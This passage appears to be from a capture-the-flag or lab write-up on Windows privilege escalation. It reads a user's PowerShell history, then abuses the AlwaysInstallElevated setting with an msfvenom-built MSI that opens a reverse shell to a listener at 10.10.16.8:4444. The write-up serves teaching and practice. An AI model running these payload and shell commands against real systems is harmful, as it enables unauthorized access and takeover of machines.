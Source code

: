 Suffice is to say that only Phoebe and Administrator are on this sys. So it's super worth checking the history, at some point Phoebe had to use admin rights.&#x20;

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

<pre><code><strong>#Output:
</strong><strong>curl 10.10.14.9:8000/dControl.zip -o dControl.zip
</strong></code></pre>

I couldn't find this file on the system.

Moving forward. AlwaysElevated is on, along-side with so many other PrivEsc vectors.

I crafted a .msi with msfvenom.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f msi -o rev.msi
```

Set-up a listener on 4444

```
nc -lvnp 4444
```

Transfer the exploit to the target.

Run it and receive the reverse shell back:

<figure><img src="../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Easy!
